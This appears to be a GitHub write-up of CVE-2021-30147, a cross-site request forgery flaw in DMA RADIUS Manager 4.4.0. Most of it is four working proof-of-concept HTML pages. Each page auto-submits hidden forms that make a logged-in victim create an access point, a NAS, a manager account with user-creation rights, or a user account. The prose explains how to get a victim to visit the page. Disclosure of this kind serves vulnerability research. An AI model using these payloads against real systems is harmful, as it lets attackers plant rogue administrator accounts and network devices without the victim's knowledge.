


# CVE-2021-30147 (DMA RADIUS Manager 4.4.0)

## CSRF - Creating Access Points

This exploit requires an attacker to have access to the web interface of the RADIUS Manager but an account isn't required (instead, this CSRF can be exploited in order to create an account for the attacker.). It also requires the victim to browse to our custom crafted webpage & be already logged in as a RADIUS user with the appropriate privileges for the certain action we want them to execute (EX: If we want the victim's account to create a new user account for us, the victim must be logged in as someone with sufficient privileges that allows them to create an account). 

By crafting a web page with the appropriate parameters for a POST request to the appropriate endpoint & having a victim visit our webpage, we're able to do various things by exploiting this vulnerability, such as:

* create a regular user or manager account
* create an access point
* create a new IP pool
* create a new CMTS
* create a new NAS
* create a new service plan

### Creating A New Access Point

The HTML for the website we'd use is:

```html
<html>

<body>
    <!-- change url to appropriate URL -->
    <form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_ap" method="POST">
        <input type="hidden" name="enable" value="1" />
        <input type="hidden" name="name" value="restbar" />
        <input type="hidden" name="ip" value="192.168.1.2" />
        <input type="hidden" name="accessmode" value="0" />
        <input type="hidden" name="community" value="5" />
        <input type="hidden" name="apiusername" value="S" />
        <input type="hidden" name="apipassword" value="S" />
        <input type="hidden" name="apiver" value="0" />
        <input type="hidden" name="description" value="" />
        <input type="hidden" name="Submit" value="Store AP" />
        <input type="hidden" name="id" value="" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

All we need now is a victim that's logged in to browse to our webpage...and:




### Creating A New NAS

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_nas" method="POST">
			<input type="hidden" name="name" value="CSRF_EXAMPLE" />
			<input type="hidden" name="nasip" value="192.168.1.6" />
			<input type="hidden" name="type" value="0" />
			<input type="hidden" name="secret" value="CSRF_EX" />
			<input type="hidden" name="coamode" value="0" />
			<input type="hidden" name="apiusername" value="" />
			<input type="hidden" name="apipassword" value="" />
			<input type="hidden" name="apiver" value="0" />
			<input type="hidden" name="descr" value="" />
			<input type="hidden" name="Submit" value="Add NAS" />
		</form>
	<script>
		document.forms[0].submit();
	</script>

	</body>
</html>
```

Once victim browses to our webpage...:




### Adding A New Manager Account

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_manager" method="POST">
			<input type="hidden" name="enablemanager" value="1" />
			<input type="hidden" name="managername" value="csrf_man" />
			<input type="hidden" name="password1" value="csrf" />
			<input type="hidden" name="password2" value="csrf" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="vatid" value="" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="perm_listusers" value="1" />
			<input type="hidden" name="perm_createusers" value="1" />
			<input type="hidden" name="Submit" value="Add manager" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And once victim browses to our webpage...:


### Adding A New User

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_user" method="POST">
			<input type="hidden" name="username" value="csrf_usr" />
			<input type="hidden" name="enableuser" value="1" />
			<input type="hidden" name="acctype" value="0" />
			<input type="hidden" name="password1" value="csrfusr" />
			<input type="hidden" name="password2" value="csrfusr" />
			<input type="hidden" name="maccm" value="" />
			<input type="hidden" name="mac" value="" />
			<input type="hidden" name="ipmodecpe" value="0" />
			<input type="hidden" name="simuse" value="1" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="taxid" value="" />
			<input type="hidden" name="srvid" value="0" />
			<input type="hidden" name="downlimit" value="0" />
			<input type="hidden" name="uplimit" value="0" />
			<input type="hidden" name="comblimit" value="0" />
			<input type="hidden" name="expiration" value="2021-04-06" />
			<input type="hidden" name="uptimelimit" value="00:00:00" />
			<input type="hidden" name="credits" value="0.00" />
			<input type="hidden" name="contractid" value="" />
			<input type="hidden" name="contractvalid" value="" />
			<input type="hidden" name="gpslat" value="" />
			<input type="hidden" name="gpslong" value="" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="superuser" value="{SUPERUSER}" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="groupid" value="1" />
			<input type="hidden" name="custattr" value="" />
			<input type="hidden" name="cnic" value="" />
			<input type="hidden" name="cnicfile1" value="(binary)" />
			<input type="hidden" name="cnicfile2" value="(binary)" />
			<input type="hidden" name="adduser" value="Add user" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And one last visit from our victim to our webpage...:


